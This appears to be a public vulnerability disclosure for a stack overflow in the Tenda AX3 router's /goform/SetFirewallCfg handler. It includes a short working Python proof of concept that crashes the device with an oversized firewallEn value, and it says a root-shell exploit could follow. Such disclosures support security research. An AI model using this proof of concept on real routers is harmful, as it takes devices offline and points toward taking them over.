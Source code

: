 # Tenda AX3 V16.03.12.11 Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ：https://www.tenda.com.cn/download/detail-3476.html

## Affected version

![](https://github.com/hujianjie123/vuln/blob/main/Tenda/SetFirewallCfg/img/1.png)

## Vulnerability details

![](https://github.com/hujianjie123/vuln/blob/main/Tenda/SetFirewallCfg/img/2.png)

In /goform/SetFirewallCfg, The user can input firewallEn data into var. When the data entered by the user is greater than 3, the user input data will be strcpyed into the variable firewall_buf. It is worth noting that there is no size detection, resulting in stack overflow.

## Poc

```python
import requests

url = "http://192.168.0.1/goform/SetFirewallCfg"

firewallEn = "a" * 0x20000

r = requests.post(url, data={'firewallEn': firewallEn})
print(r.content)
```

Then you can see the router crash, and finally you can write exp to get rootshell
